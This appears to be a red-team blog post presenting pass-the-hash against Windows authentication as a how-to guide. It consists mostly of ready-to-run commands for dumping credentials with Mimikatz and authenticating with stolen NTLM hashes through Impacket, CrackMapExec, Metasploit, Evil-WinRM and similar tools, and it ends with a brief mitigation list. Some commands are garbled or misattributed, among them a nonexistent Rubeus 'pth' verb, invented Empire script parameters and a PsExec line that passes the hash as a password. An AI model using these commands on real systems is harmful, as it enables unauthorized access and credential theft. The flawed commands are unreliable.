```yaml
---
layout: blog
title: "Pass-the-Hash Attack: An In-Depth Look with Examples and Commands"
tags: redteaming c2
comments: true
date: 2023-04-08
---
```


# Pass-the-Hash Attack: An In-Depth Look with Examples and Commands

Pass-the-Hash (PtH) is a well-known attack technique that targets Windows authentication systems. It enables attackers to use a user's password hash, instead of the plain-text password, to authenticate to network resources. In this blog post, we will dive into the details of this attack, discuss examples and commands, and provide a real-world attack scenario.

## Understanding Pass-the-Hash

Windows systems primarily use two types of authentication protocols: NTLM (NT LAN Manager) and Kerberos. Both protocols store password hashes, which are fixed-length representations of a user's password. When a user logs in, Windows checks the entered password's hash against the stored hash. If they match, the user is granted access.

In a PtH attack, the attacker captures a user's password hash and uses it to authenticate to network resources as the targeted user, without needing to know the plain-text password. This allows the attacker to bypass many security controls and gain unauthorized access to sensitive data.
<br/>
## How to Perform a Pass-the-Hash Attack

Here is a step-by-step guide to performing a PtH attack, including the tools and commands:

1.**Capture the password hash**: The first step is to obtain the target user's password hash. This can be done using various methods, such as dumping hashes from the Security Account Manager (SAM) database or extracting hashes from a system's memory using tools like Mimikatz.

Example command using Mimikatz:
```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```

<br/>
2.**Use the captured hash for authentication**: Once the password hash is obtained, the attacker can use it to authenticate to network resources. Tools like PsExec or CrackMapExec can be used to perform PtH attacks.

### For Kali Linux/Linux

+ **Impacket (pth-winexe)**
```bash
pth-winexe -U TARGET_DOMAIN/USER%NTLM_HASH //TARGET_IP cmd
```
+ **Impacket (secretsdump.py)**
```bash
python3 secretsdump.py -ntds TARGET_DOMAIN/USER:PASSWORD@TARGET_IP
```
+ **CrackMapExec**
```bash
crackmapexec smb TARGET_IP -u USER -H NTLM_HASH
```
+ **Metasploit Framework (auxiliary module: smb_login)**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBDomain TARGET_DOMAIN
set SMBUser USER
set SMBPass NTLM_HASH
run
```
+ **Evil-WinRM**
```bash
evil-winrm -i TARGET_IP -u USER --hash NTLM_HASH
```
+ **Wmiexec**
```bash
wmiexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```
+ **Smbexec**
```bash
smbexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```

### For Windows

+ **Mimikatz**
```bash
mimikatz.exe "sekurlsa::pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /run:cmd.exe" "exit"
```

+ **PowerShell Empire**
```bash
.\Invoke-PowerShellTcp.ps1 -Hash NTLM_HASH -Username USER -Domain TARGET_DOMAIN -IPAddress TARGET_IP
```

+ **PsExec**
```bash
psexec.exe \\TARGET_IP -u TARGET_DOMAIN\USER -p NTLM_HASH cmd.exe
```
+ **Rubeus**
```bash
Rubeus.exe pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /target:TARGET_IP
```


## Conclusion

Pass-the-Hash attacks are dangerous because they exploit inherent weaknesses in Windows authentication mechanisms. To defend against PtH attacks, organizations should adopt a multi-layered security approach, including:

- Implementing privileged access management (PAM)
- Regularly patching and updating software
- Using strong, unique passwords
- Enabling security features like Credential Guard
- Restricting the use of administrative accounts

Understanding how Pass-the-Hash attacks work, along with effective mitigation strategies, is essential to protect your organization from unauthorized access and data breaches.

